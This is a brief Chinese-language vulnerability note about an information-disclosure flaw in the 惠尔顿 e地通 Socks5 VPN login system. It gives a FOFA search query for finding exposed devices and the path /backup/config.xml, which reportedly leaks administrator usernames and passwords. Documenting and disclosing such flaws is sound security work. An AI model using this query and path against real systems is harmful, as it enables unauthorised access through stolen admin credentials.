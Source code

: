 # 惠尔顿 e地通 config.xml 信息泄漏漏洞

## 漏洞描述

惠尔顿 e地通Socks5 VPN登录系统 存在信息泄漏漏洞，访问特殊的Url即可获取管理员账号密码

## 漏洞影响

```
惠尔顿 e地通Socks5 VPN登录系统
```

## FOFA

```
app="惠尔顿-e地通VPN"
```

## 漏洞复现

登录页面

![img](./images/202202162228884.png)

访问 **/backup/config.xml，** 泄漏用户信息

![img](./images/202202162228756.png)